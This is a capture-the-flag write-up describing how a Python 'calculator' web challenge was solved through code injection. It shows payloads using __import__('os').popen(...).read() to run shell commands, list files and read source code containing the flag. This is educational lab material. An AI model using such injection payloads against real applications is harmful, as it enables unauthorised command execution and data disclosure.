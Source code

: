 # Challenge Name : Addition

#Description : 

Joe is aiming to become the next supreme coder by trying to make his code smaller and smaller. His most recent project is a simple calculator which he reckons is super secure because of the "filters" he has in place. However, he thinks that he knows more than everyone around him. Put Joe in his place and grab the flag.

## The web page

The challenge presents us with a webpage which says the following : 

```
My mega calculator can do any calculations python will let you do. Use * + - / % to do complex problems if you want.
```

So it seems that there can be some type of code execution in the calculation box.

![webpage](Pictures/webpage.png)

## Code execution

My team-mate had already found that there is code execution in there. For reference I will link his writeup at the end.

When you write the following : 

```
__import__('os').popen('cat flag.txt')
```
It gives us the following result : 

```
<os._wrap_close object at 0x7ff929ffc280>
```

It means that the process is executed, but we are not able to view it. So, we need the `read()` method to actualy view the contents of the process executed.

```
__import__('os').popen('cat flag.txt').read()
```

Upon using this, we cannot find anything there. This can mean that there is no `flag.txt` file. So I listed the contents of the directory.

```
__import__('os').popen('ls -la').read()
```

The following result is given

```
total 24 drwxr-xr-x 1 ctf ctf 4096 Sep 20 12:08 . drwxr-xr-x 1 root root 4096 Sep 20 12:08 .. drwxr-xr-x 2 ctf ctf 4096 Sep 20 12:08 __pycache__ -rw-r--r-- 1 root root 1403 Sep 20 02:12 main.py -rw-r--r-- 1 ctf ctf 202 Aug 16 16:49 prestart.sh drwxr-xr-x 2 root root 4096 Sep 20 02:16 templates
```

I tried to check the source code of the script that is running eveything. 

```
__import__('os').popen('cat main.py').read()
```

It turns ou there the flag was inside the `main.py` file

![flag](Pictures/flag.png)


**For Reference check out my teammate's writeup as he had solved most of the challenge, before I used the final payload**


